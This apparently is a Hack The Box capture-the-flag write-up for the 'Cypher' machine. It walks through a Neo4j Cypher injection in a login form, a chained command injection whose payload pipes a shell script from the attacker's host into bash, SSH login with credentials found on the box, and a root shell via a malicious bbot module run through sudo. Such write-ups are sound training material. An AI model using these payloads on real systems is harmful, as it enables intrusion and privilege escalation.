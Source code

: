 ```yaml
---
clayout: ctf
title: Cypher
date: 2025-05-29
image: /ctf/hack-the-box/machines/cypher/info-card.png
type: Hack The Box
ctf:
    - name: Cypher
      link: https://app.hackthebox.com/machines/650
      thumbnail: /ctf/hack-the-box/machines/cypher/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/650
          thumbnail: /ctf/hack-the-box/machines/cypher/pwned.png
---
```


# Enumeration

## Network Scanning

We start by scanning the machine with `nmap`.

```bash
nmap -sC -sV -v -A -p- -oN nmap.txt 10.10.11.57
```

**Scan Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 be68db828e6332455446b7087b3b52b0 (ECDSA)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
```

**Summary of Open Ports:**

| Port   | Service | Version       |
| ------ | ------- | ------------- |
| 22/tcp | SSH     | OpenSSH 9.6p1 |
| 80/tcp | HTTP    | nginx 1.24.0  |


## HTTP Enumeration

### Hostname Resolution

The web server on port 80 issues a redirect to `http://cypher.htb/`. To facilitate local name resolution, we add the following entry to `/etc/hosts`:

```bash
echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```

### Website Analysis

Accessing `http://cypher.htb` reveals a basic webpage containing a login form:

![Home Page](/ctf/hack-the-box/machines/cypher/home.png)

### Login Form Testing

The login form is located at `http://cypher.htb/login`:

![Login Form](/ctf/hack-the-box/machines/cypher/login.png)

Using the default payload `' or 1=1` we got the following error:

```bash
on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 62 (offset: 61))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '' OR 1=1' return h.value as hash"
                                                              ^}
```

This reveals that the backend uses **Neo4j** and the **Cypher query language**, with unsanitized user input directly inserted into the query—indicating a **Cypher injection vulnerability**.

### Directory Brute-Forcing with Gobuster

We use `gobuster` to enumerate hidden directories:

```bash
gobuster dir -u http://cypher.htb -w /usr/share/wordlists/dirb/common.txt -t 100 -r -e -s 200,204,301,302,307,401,403
```

**Results:**

![Gobuster Results](/ctf/hack-the-box/machines/cypher/gobuster.png)

We found a `/testing` directory:

![Testing Page](/ctf/hack-the-box/machines/cypher/testing.png)

This directory exposes a file named `custom-apoc-extension-1.0-SNAPSHOT.jar`.

## Vulnerability Discovery

### Custom APOC Extension

Decompiling the `jar` file we found the `CustomFunctions` class with the `getUrlStatusCode` function.

```java
@Description("Returns the HTTP status code for the given URL as a string")
public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
        url = "https://" + url;
    }

    String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
    Process process = Runtime.getRuntime().exec(command);
    ...
}
```

The function `getUrlStatusCode` constructs a shell command using unsanitized user input and executes it using `Runtime.getRuntime().exec`, making it vulnerable to **command injection**.

## Exploitation

### Cypher Injection

Using Cypher injection through the login form and chaining it with the vulnerable custom APOC function, we crafted the following payload to gain Remote Code Execution.

```sql
' or 1=1 CALL custom.getUrlStatusCode('http://10.10.14.10:1337/; curl http://10.10.14.10:1337/shell.sh | bash') YIELD statusCode RETURN statusCode as hash //
```

**Shell Obtained:**

![Reverse Shell](/ctf/hack-the-box/machines/cypher/shell.png)

### Local Enumeration

Inspection of `/etc/passwd` revealed the following users:

```bash
root:x:0:0:root:/root:/bin/bash
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
```

Within `/home/graphasm`, we found a `bbot_preset.yml` file containing credentials:

```yaml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

Using these credentials (`graphasm:cU4btyib.20xtCMCXkBmerhK`) we can login via SSH.

```bash
ssh graphasm@10.10.11.57
```

# Privilege Escalation

### Misconfigured Sudo

The `graphasm` user has passwordless sudo access to the `bbot` script.

```bash
$ sudo -l
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

#### `bbot` Script

```python
#!/opt/pipx/venvs/bbot/bin/python
import re
import sys
from bbot.cli import main

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

The script executes the `bbot` Python CLI, which can be extended with custom modules.

#### Leveraging a Known Exploit

Referencing a public [GitHub repository](https://github.com/Housma/bbot-privesc/tree/main), we just followed the instructions to create a malicious module to escalate privileges.

**`preset.yml`:**

```yaml
description: System Info Recon Scan
module_dirs:
  - .
modules:
  - systeminfo_enum
```

**`systeminfo_enum.py`:**

```python
from bbot.modules.base import BaseModule
import pty
import os

class systeminfo_enum(BaseModule):
    watched_events = []
    produced_events = []
    flags = ["safe", "passive"]
    meta = {"description": "System Info Recon (actually spawns root shell)"}

    async def setup(self):
        self.hugesuccess("📡 systeminfo_enum setup called — launching shell!")
        try:
            pty.spawn(["/bin/bash", "-p"])
        except Exception as e:
            self.error(f"❌ Shell failed: {e}")
        return True
```

We can now run the `bbot` script with the `preset.yml` file and get a root shell.

```bash
sudo /usr/local/bin/bbot -t dummy.com -p /home/graphasm/preset.yml --event-types ROOT
```

**Root Shell Acquired:**

![Root Shell](/ctf/hack-the-box/machines/cypher/root.png)

The root flag is in the `/root/root.txt` file.
